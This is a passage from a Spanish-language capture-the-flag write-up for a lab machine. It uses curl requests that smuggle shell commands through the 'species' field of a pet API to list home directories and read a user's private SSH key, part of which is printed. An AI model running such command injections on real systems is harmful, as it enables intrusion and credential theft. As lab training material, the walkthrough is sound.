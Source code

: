 PerfecTOOOOTOTOTO, el usuario que esta manteniendo el servidor web se llama `patrick` (ya habíamos interactuado con este nombre ¿lo recuerdas?)... Ahora consigamos una Shell en el sistema, ¿no?

Entre tooodas las formas posibles, ¿y si buscamos una [llave privada SSH](https://www.digitalocean.com/community/tutorials/how-to-set-up-ssh-keys-2) a ver si podemos tomarla, copiarla y conectarnos al sistema sin necesidad de colocar contraseña o de estar creando reverse shells? A darle a ver si hay suerte:

> Lo haremos manual, pero al final de este apartado dejare un script para automatizar el **command injection**.

---

```bash
❱ curl -s -d '{"name":"hola","species":"; ls -a /home"}' http://pets.devzat.htb/api/pet ...
...
    ..."cat: characteristics/: Is a directory\n.\n..\ncatherine\npatrick\n"
...
```

Hay dos usuarios en el sistema con casita, `catherine` (podemos listar más no ver sus archivos) y `patrick` tiene la carpeta `.ssh`:

```bash
❱ curl -s -d '{"name":"hola","species":"; ls -a /home/patrick"}' http://pets.devzat.htb/api/pet > /dev/null ; curl -s http://pets.devzat.htb/api/pet | jq
...
    ..."cat: characteristics/: Is a directory\n.\n..\n.bash_history\n.bash_logout\n.bashrc\n.cache\n.config\ndevzat\n.gitconfig\n.gnupg\ngo\n.npm\npets\n.profile\n.ssh\n.viminfo\n"
...
```

Varios objetos (notamos que **catherine** es la que tiene la flag `user.txt`), veamos si existen las llaves:

```bash
❱ curl -s -d '{"name":"hola","species":"; ls -a /home/patrick/.ssh"}' http://pets.devzat.htb/api/pet ...
...
    ..."cat: characteristics/: Is a directory\n.\n..\nauthorized_keys\nid_rsa\n"
...
```

Existeeeeee! Tomémosla y copiemos su contenido:

```bash
❱ curl -s -d '{"name":"hola","species":"; cat /home/patrick/.ssh/id_rsa"}' http://pets.devzat.htb/api/pet ...
...
    "characteristics": "cat: characteristics/: Is a directory\n-----BEGIN OPENSSH PRIVATE KEY-----\nb3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn\nNhAAAAAwEAAQAAAYEA0z5vGXu4rlJWm2ffbekliU8N7KSuRj9tahP...
...
```

Copiamos desde `-----BEGIN OPENSSH PRIVATE KEY-----` hasta `-----END OPENSSH PRIVATE KEY-----` y pegamos (que les quede sin espacios ni saltos) en un archivo de nuestro sistema, el archivo nos va a quedar con un formato estéticamente incorrecto, ya que los saltos de línea no los va a interpretar, así que para que sean interpretados le decimos que cambie `\n` (salto) a `\r` ([retorno de carro](https://www.google.com/search?client=firefox-b-d&q=retorno+de+carro)):
